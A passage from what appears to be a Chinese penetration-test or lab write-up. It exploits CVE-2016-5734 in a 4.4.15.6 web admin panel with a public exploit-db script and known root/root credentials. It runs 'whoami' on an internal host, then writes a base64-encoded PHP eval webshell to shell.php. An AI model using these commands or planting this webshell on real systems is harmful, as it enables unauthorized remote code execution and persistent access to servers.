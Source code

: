 从后台可以看出版本为4.4.15.6，这个版本存在远程代码执行漏洞CVE-2016-5734，既然已经知道账号和密码，就可以执行利用这个漏洞执行命令了  
EXP地址：[https://www.exploit-db.com/exploits/40185](https://www.exploit-db.com/exploits/40185)  
执行命令：

```php
python exp.py -u root --pwd="root" http://10.255.200.23:8080 -c "system('whoami');"
```

![图片.png](assets/1698900855-b0cd7a1434a5287c8e7549564abb9fc0.png)

写入webshell：

```php
python exp.py -u root --pwd="root" http://10.255.200.23:8080 -c "file\_put\_contents('shell.php',base64\_decode('PD9waHAgZXZhbCgkX1JFUVVFU1RbbWRybWRyXSk7Pz4='));"
```

![图片.png](assets/1698900855-8d078df36655b07c6552d98da13fc90e.png)

连接webshell:

![图片.png](assets/1698900855-7f4703a5f8f912eaee6936bea8eed408.png)
